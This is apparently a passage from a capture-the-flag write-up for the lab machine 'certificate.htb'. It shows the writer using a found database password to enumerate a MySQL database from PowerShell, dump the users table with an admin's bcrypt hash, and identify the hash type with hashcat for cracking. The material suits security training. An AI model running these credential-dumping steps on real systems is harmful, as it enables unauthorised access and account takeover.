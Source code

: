 ```
~$ PS C:\xampp\htdocs\certificate.htb> & "C:\xampp\mysql\bin\mysql.exe" -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "SHOW DATABASES;"

Database
certificate_webapp_db
information_schema
test
```

<p class="indent-paragraph">
Continuing the enumeration, we queried the <code>certificate_webapp_db</code> and identified four tables of interest, particularly <code>users</code><span class="codefix">,</span> which revealed a list of registered accounts along with their bcrypt-hashed passwords. Among the entries, we found <code>sara.b</code><span class="codefix">,</span> the only user assigned the <code>admin</code> role, indicating her elevated privileges within the application. This discovery highlights a valuable authentication target for lateral movement or privilege escalation.
</p>

```
~$ PS C:\xampp\htdocs\certificate.htb> & "C:\xampp\mysql\bin\mysql.exe" -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "SHOW TABLES;" certificate_webapp_db

Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses

~$ PS C:\xampp\htdocs\certificate.htb> & "C:\xampp\mysql\bin\mysql.exe" -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; select * from users;"  -E

<skip>
*************************** 6. row ***************************
        id: 10
first_name: Sara
 last_name: Brawn
  username: sara.b
     email: sara.b@certificate.htb
  password: $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6
created_at: 2024-12-25 21:31:26
      role: admin
 is_active: 1
```

<p class="indent-paragraph">
To accurately determine the format of the extracted hash, we used the <code>hashcat --identify</code> command with the contents of the file containing <code>sara.b's</code> password hash. The output revealed a match with the <code>bcrypt $2*$</code> format (mode <code>3200</code>), which is commonly employed in Unix-like systems and modern web applications.
</p>

```
~$ hashcat --identify hash-sara-b.txt 
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```
